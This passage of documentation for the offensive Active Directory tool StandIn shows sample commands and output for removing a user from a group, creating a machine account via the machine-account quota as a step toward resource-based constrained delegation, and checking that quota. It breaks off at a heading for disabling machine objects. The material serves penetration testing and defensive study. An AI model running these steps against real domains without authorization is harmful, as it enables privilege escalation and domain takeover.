 ```

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Group    : lowPrivButMachineAccess
    GUID     : 37e3d957-af52-4cc6-8808-56330f8ec882

[+] Removing user from group
    |_ Success
```

## Machine Object Operations

These functions specifically are for machine operations and expect the machine name as an input.

### Create machine object

#### Use Case

> *The operator may wish to create a machine object in order to perform a [resource based constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) attack. By default any domain user has the ability to create up to 10 machines on the local domain.*

#### Syntax

Create a new machine object with a random password, user `ms-DS-MachineAccountQuota` applies to this operation.

```
C:\> StandIn.exe --computer M-1337-b33f --make

[?] Using DC    : m-w16-dc01.main.redhook.local
    |_ Domain   : main.redhook.local
    |_ DN       : CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local
    |_ Password : MlCGkaacS5SRUOt

[+] Machine account added to AD..
```

The `ms-DS-MachineAccountQuota` property exists in the domain root object. If you need to verify the quota you can perform an object search as shown below.

```
C:\> StandIn.exe --object ms-DS-MachineAccountQuota=*
```

### Disable machine object

#### Use Case

> *Standard users do not have the ability to delete a machine object, however a user that create a machine can thereafter disable the machine object.*

#### Syntax
